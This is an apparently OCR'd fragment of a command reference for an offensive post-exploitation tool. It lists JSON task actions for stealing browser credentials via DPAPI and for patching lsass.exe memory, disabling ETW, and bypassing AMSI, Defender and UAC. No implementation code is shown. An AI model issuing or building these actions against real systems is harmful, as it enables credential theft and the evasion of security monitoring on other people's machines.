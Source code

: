 ```bash
}

# DPAPI Chrome
{
  "action": "dpapi_chrome",
  "target_user": "user@domain.com"
}

# DPAPI Edge
{
  "action": "dpapi_edge",
  "target_user": "user@domain.com"
}

# DPAPI Firefox
{
  "action": "dpapi_firefox",
  "target_user": "user@domain.com"
}

# DPAPI Safari
{
  "action": "dpapi_safari",
  "target_user": "user@domain.com"
}
```

### Memory Patching
```bash
# Memory patch
{
  "action": "memory_patch",
  "target_process": "lsass.exe"
}

# ETW patch
{
  "action": "etw_patch",
  "target_process": "lsass.exe"
}

# AMSI bypass
{
  "action": "amsi_bypass",
  "target_process": "powershell.exe"
}

# Defender bypass
{
  "action": "defender_bypass",
  "target_process": "powershell.exe"
}

# UAC bypass
{
  "action": "uac_bypass",
  "target_process": "powershell.exe"
}
```

